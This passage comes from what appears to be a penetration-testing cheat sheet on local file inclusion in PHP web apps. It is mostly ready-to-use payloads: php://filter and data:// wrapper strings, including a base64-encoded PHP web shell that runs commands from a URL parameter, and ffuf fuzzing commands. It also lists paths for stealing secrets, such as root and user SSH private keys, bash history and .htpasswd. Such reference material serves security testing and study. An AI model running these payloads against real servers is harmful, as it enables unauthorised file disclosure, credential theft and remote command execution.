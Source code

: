 ```sh
?page=http://127.0.0.1:3000/
?page=http://127.0.0.1:8000/

# PHP Filter
?page=php://filter/resource=/etc/passwd
?page=php://filter/read=string.rot13/resource=index.php
?page=php://filter/convert.base64-encode/resource=index.php
?page=pHp://filter/convert.base64-encode/resource=index.php
?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>

# PHP Filter - Base64 encoding. The payloa is "<?php system($_GET['cmd']); ?>"
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

To automate this process, we can fuzzing as follow.

```sh
ffuf -u http://example.com/?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
ffuf -u http://example.com/?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt
```

<br />

### Interesting Files

When our payload is successful, we can additionaly investigate local files and retrieve sensitivin information.

```sh
# Home directories
?page=/home/<username>/.bashrc
?page=/home/<username>/.bash_history
?page=/home/<username>/.bash_logout
?page=/home/<username>/.bash_profile
?page=/home/<username>/.profile
?page=/home/<username>/.ssh/id_rsa

# Root directory
?page=/root/.bashrc
?page=/root/.bash_history
?page=/root/.bash_logout
?page=/root/.bash_profile
?pgae=/root/.profile
?page=/root/.ssh/id_rsa

# Mail
?page=/var/mail/<username>
?page=/var/spool/mail/<username>

# Host
?page=/etc/hosts
# Cron
?page=/etc/crontab

# Web root
?page=/var/www/html/index.html
?page=/var/www/html/index.php
?page=/var/www/html/.htaccess
?page=/var/www/html/.htpasswd
?page=/var/www/example.com/index.php
?page=/var/www/sudomain/index.php
?page=/var/www/subdomain.example.com/index.php
?page=/var/www/wordpress/index.php
```